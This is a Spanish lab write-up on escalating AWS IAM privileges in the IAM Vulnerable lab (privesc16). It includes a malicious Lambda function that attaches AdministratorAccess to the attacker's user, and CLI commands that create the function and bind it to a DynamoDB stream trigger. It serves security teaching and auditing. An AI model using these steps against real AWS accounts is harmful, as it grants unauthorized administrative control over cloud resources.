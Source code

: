 ```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# PassRoleToNewLambdaThenTrigger

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc16. En este caso de explotación, el usuario de pruebas no tiene los permisos de invocar funciones lamba, solo mapear triggers a otro evento, en este caso a DynamoDB, por lo cual requiere que otro usuario actualice o que la base de datos se actualice para que funciones este caso de explotación.

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc16
{% endembed %}

Un atacante con los permisos <mark style="color:green;">**iam:PassRole**</mark> , <mark style="color:green;">**lambda:CreateFunction**</mark> y <mark style="color:green;">**lambda:CreateEventSourceMapping**</mark> (y posiblemente dynamodb:PutItem y dynamodb:CreateTable), pero ~~sin el permiso _lambda:InvokeFunction_~~, puede escalar privilegios creando una nueva función de Lambda y conectándola a una tabla de DynamoDB. Posteriormente, cuando se inserta una nueva fila en la tabla, la función Lambda ejecuta un código que aumenta los privilegios del usuario.

### Configuración Inicial

Usuario del laboratorio: privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user con las políticas:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

La cuenta de AWS debe contener un rol existente que incluya los permisos:

* iam:AttachUserPolicy
* dynamodb:GetRecords&#x20;
* dynamodb:GetShardIterator
* dynamodb:DescribeStream
* dynamodb:ListStreams

y las funciones de Lambda deben tener permitido asumir este rol.&#x20;

La cuenta de AWS también necesita tener una tabla DynamoDB habilitada para transmisión.&#x20;

Alternativamente, si no existe una tabla DynamoDB, este método de escalada de privilegios aún puede funcionar si el atacante tiene el permiso dynamodb:CreateTable.

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil para el usuario privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user

{% hint style="info" %}
Al momento de configurar el perfil, se tiene que tomar en cuenta la región, que sea la misma donde se encuentra la Base Dynamodb,
{% endhint %}

### Explotación

En este escenario, se tiene que aprovechar del privilegio de <mark style="color:green;">lambda:CreateFunction</mark> para crear una función de lambda maliciosa que tendrá el código para adjuntar una política de altos privilegios a nuestro usuario inicial.

La función lambda en Python es la siguiente:

{% code title="code.py" overflow="wrap" %}
```python
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc16- PassRoleToNewLambdaThenTriggerWithNewDynamo-user',
	PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```
{% endcode %}

Para subir el archivo con el permiso <mark style="color:green;">**lambda:Createfunction**</mark> es necesario comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip**</mark>, después ejecutar el siguiente comando:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>aws lambda create-function --function-name privesc --runtime python3.6 --role arn:aws:iam::037572360634:role/privesc-high-role-Lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-1 --profile privesc16
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Ahora que hemos creado nuestra función maliciosa vamos aprovechar nuestro otro privilegio de <mark style="color:green;">lambda:CreateEventSourceMapping</mark> para vincular nuestra función a cualquier evento que ocurra sobre una DynamoDB. En otras palabras, es necesario que en el ambiente que estemos auditando exista una tabla de DynamoDB.

<pre data-overflow="wrap"><code><strong>aws lambda create-event-source-mapping --function-name privesc --event-source-arn arn:aws:dynamodb:us-east-1:037572360634:table/Vulnerable/stream/2022-0608T00:18:02.839 --enabled --starting-position LATEST --region us-east-1 --profile privesc16
</strong></code></pre>

Dado que el usuario actual no tiene ningún permiso de DynamoDB, no es posible cargar una nueva fila y desencadenar el exploit. En su lugar, el atacante debe esperar a que otro usuario o un servicio actualice la tabla.

#### Uso de usuario alterno

Cuando otro usuario cambie, actualice o elimine datos de la base de DynamoDB, se ejecutará el trigger del lambda, a continuación se ejecutara un comando que actualiza la tabla simulando ser otro usuario AWS

```
aws dynamodb put-item --table-name privesc16 --item ‘{“test”:{“S”:”whatever”}}’
--region us-west-2
```

La acción en la tabla de DynamoDB hizo que se ejecutara la función Lambda vinculada, lo que aumentó los permisos del atacante: este método de escalada de privilegios es más fácil si el atacante también tiene los permisos <mark style="color:green;">dynamodb:CreateTable</mark> y <mark style="color:green;">dynamodb:PutItem</mark>, porque entonces el atacante puede crear una tabla de DynamoDB adecuada y cargar un elemento para activar el exploit.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption><p>Elevación de privilegios exitosa</p></figcaption></figure>


